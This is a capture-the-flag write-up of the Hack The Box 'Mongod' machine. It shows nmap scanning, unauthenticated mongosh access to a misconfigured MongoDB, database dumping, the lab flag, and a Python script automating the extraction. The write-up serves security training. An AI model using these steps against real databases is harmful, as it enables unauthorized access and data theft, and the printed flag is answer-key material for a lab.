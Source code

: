 ﻿# Hack The Box - Mongod Writeup

![HTB Banner](https://www.hackthebox.com/badge/image/your-badge-id)

## 🔥 Overview
**Machine Name:** Mongod  
**Difficulty:** Easy  
**Vulnerability:** MongoDB Misconfiguration  
**Attack Vector:** Unauthenticated Database Access  
**Technology Stack:** MongoDB NoSQL Database (TCP:27017)  

---

## 🎯 **Target Enumeration & Recon**

### **1️⃣ Nmap Scan**
We start with an **Nmap** scan to identify open ports and services running on the target machine:

```bash
nmap -sC -sV -p- 10.129.107.200
```

**Results:**
```
PORT      STATE SERVICE    VERSION
27017/tcp open  mongodb    MongoDB 3.6.8
```
MongoDB is running on **port 27017**, and based on the **version (3.6.8)**, it might be **misconfigured**.

---

## 🚀 **Exploitation: Unauthenticated MongoDB Access**
MongoDB sometimes allows **unauthenticated access**, meaning we can connect and extract information **without credentials**.

### **2️⃣ Connecting to MongoDB**
We use `mongosh` (MongoDB shell) to check if we have direct access:

```bash
mongosh mongodb://10.129.107.200:27017
```

If we connect successfully, we can list the available databases:

```javascript
show dbs;
```

**Output:**
```
admin                  32.00 KiB
config                 72.00 KiB
local                  72.00 KiB
sensitive_information  32.00 KiB
users                  32.00 KiB
```

The **`sensitive_information`** database seems interesting.

---

## 🎯 **Extracting the Flag**
Let's switch to the **sensitive_information** database and list its collections:

```javascript
use sensitive_information;
show collections;
```

**Output:**
```
flag
```

We extract the data:

```javascript
db.flag.find();
```

**Output:**
```json
[
  {
    "_id": ObjectId("630e3dbcb82540ebbd1748c5"),
    "flag": "1b6e6fb359e7c40241b6d431427ba6ea"
  }
]
```

✅ **FLAG FOUND:** `1b6e6fb359e7c40241b6d431427ba6ea`

---

## 🔥 **Automating the Exploit**
Instead of doing this manually, we created a Python exploit:

```python
import os
import subprocess
import re

TARGET_IP = "10.129.107.200"
OUTPUT_FILE = "mongo_output.json"

def extract_flag():
    print("[*] Connecting to MongoDB and extracting flag...")

    mongosh_commands = """
    show dbs;
    use sensitive_information;
    show collections;
    db.flag.find();
    """

    result = subprocess.run(
        ["mongosh", f"mongodb://{TARGET_IP}:27017", "--quiet"],
        input=mongosh_commands,
        text=True,
        capture_output=True
    )

    output = result.stdout.strip()
    if not output:
        print("[-] No output received from MongoDB.")
        return

    with open(OUTPUT_FILE, "w") as f:
        f.write(output)

    print(f"[+] MongoDB output saved to {OUTPUT_FILE}")

    match = re.search(r"flag:\s*'([a-f0-9]+)'", output)
    if match:
        flag = match.group(1)
        print(f"[✔] FLAG EXTRACTED: {flag}")
    else:
        print("[-] Flag not found.")

if __name__ == "__main__":
    extract_flag()
```

Save this script as `mongo_pwn.py` and run:

```bash
python3 mongo_pwn.py
```

---

## 🎯 **Conclusion**
This box demonstrates the **importance of securing MongoDB** against unauthenticated access. The key takeaways:

- Always **require authentication** for databases.
- **Disable remote access** if not needed.
- **Upgrade MongoDB** to prevent known exploits.

✅ **Mission Accomplished!** 🎉

---

## 💀 **AfterDark Security**
Follow **#AfterDark** for more **CTF solutions, pentesting tricks, and cybersecurity research!**  
🚀 **GitHub:** [Your Repo Link]  
🐦 **Twitter:** [Your Twitter Handle]  

---


